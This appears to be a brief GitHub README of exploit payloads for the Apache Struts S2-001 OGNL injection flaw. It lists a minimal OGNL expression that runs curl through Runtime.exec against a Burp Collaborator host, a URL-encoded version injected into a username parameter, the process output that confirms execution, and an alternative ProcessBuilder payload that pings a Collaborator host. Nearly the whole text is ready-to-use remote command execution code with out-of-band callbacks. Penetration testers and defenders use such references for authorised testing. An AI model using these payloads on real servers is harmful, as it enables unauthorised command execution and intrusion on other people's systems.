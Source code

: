 # struts-vuln

### s2-001:
- Minimal payload:
```
%{@java.lang.Runtime@getRuntime().exec('curl 132poma4l3k2ugiooej4aptsqjwck1.burpcollaborator.net')}
```
- url encoded:
``` 
username=%25{@java.lang.Runtime@getRuntime().exec('curl 132poma4l3k2ugiooej4aptsqjwck1.burpcollaborator.net')}
```

- Output: `java.lang.UNIXProcess@58f17c3c`

- Alternative payload:

```
%{(new java.lang.ProcessBuilder(new java.lang.String []{"ping","yz1h62j86v3zxqvq1xl5g967iyoocd.burpcollaborator.net"})).start()}
```
